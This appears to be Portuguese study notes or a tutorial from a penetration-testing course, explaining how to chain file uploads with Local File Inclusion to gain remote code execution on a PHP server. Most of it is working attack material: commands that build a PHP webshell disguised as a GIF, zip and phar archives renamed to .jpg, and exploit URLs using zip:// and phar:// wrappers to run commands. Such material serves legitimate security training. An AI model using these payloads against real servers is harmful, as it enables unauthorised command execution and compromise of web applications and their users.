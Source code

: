 Métodos de Exploração de LFI com Upload de Arquivos: Explicações Detalhadas
1. Inclusão de Arquivo com Imagem Maliciosa
Criação da Imagem Maliciosa
Objetivo: Disfarçar código malicioso em um arquivo de imagem para contornar verificações de tipo de arquivo.
Como funciona: Arquivos de imagem geralmente são permitidos em uploads. Ao iniciar o arquivo com bytes mágicos de imagem (ex: GIF8 para GIFs) e inserir código PHP malicioso, podemos enganar o sistema para aceitar o upload.
Exemplo:
sh
Copiar código
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
Upload da Imagem
Passos:
Navegar até a página de configurações de perfil do aplicativo.
Fazer upload da imagem maliciosa (shell.gif).
Por que funciona: O sistema de upload verifica a extensão e os bytes mágicos, mas não o conteúdo completo do arquivo.
Inclusão do Arquivo Carregado
Obtenção do caminho do arquivo:
Após o upload, inspecione o código fonte da página para encontrar a URL do arquivo. Exemplo:
html
Copiar código
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
Uso da vulnerabilidade LFI:
A URL do arquivo é usada para incluir e executar o código PHP embutido:
sh
Copiar código
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
Resultado: O código PHP no arquivo é executado no servidor, permitindo a execução remota de comandos.
2. Uso do Wrapper Zip
Criação do Arquivo Zip
Objetivo: Esconder um script PHP malicioso dentro de um arquivo zip e renomeá-lo para uma extensão permitida (ex: .jpg).
Como funciona: Arquivos zip podem conter qualquer tipo de arquivo. Ao renomeá-lo para .jpg, tentamos contornar verificações de tipo de arquivo.
Exemplo:
sh
Copiar código
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
Upload do Arquivo Zip
Passos:
Navegar até a página de configurações de perfil.
Fazer upload do arquivo shell.jpg.
Por que funciona: Alguns sistemas permitem arquivos zip, mas não verificam adequadamente o conteúdo após a renomeação.
Inclusão do Arquivo Zip
Uso da vulnerabilidade LFI com wrapper zip:
sh
Copiar código
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
Resultado: O código PHP dentro do arquivo zip é executado.
3. Uso do Wrapper Phar
Criação do Arquivo Phar
Objetivo: Esconder um script PHP malicioso dentro de um arquivo phar e renomeá-lo para uma extensão permitida (ex: .jpg).
Como funciona: Arquivos phar podem embutir arquivos PHP. Ao renomeá-lo, tentamos contornar verificações de tipo de arquivo.
Exemplo:
php
Copiar código
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
?>
Compilação e renomeação:
sh
Copiar código
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
Upload do Arquivo Phar
Passos:
Navegar até a página de configurações de perfil.
Fazer upload do arquivo shell.jpg.
Por que funciona: Alguns sistemas permitem arquivos phar, mas não verificam adequadamente o conteúdo após a renomeação.
Inclusão do Arquivo Phar
Uso da vulnerabilidade LFI com wrapper phar:
sh
Copiar código
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
Resultado: O código PHP dentro do subarquivo phar é executado.
Conclusão
Cada método explora a funcionalidade de upload de arquivos para armazenar código malicioso no servidor, que é então executado através de uma vulnerabilidade LFI. A escolha do método depende das permissões de upload do servidor e das configurações de segurança.

Método da imagem maliciosa: mais simples e direto, utiliza imagens comuns.
Wrapper zip: útil quando arquivos zip são permitidos, mas requerem renomeação.
Wrapper phar: uma alternativa quando outros métodos falham, aproveitando a capacidade de arquivos phar embutirem scripts PHP.
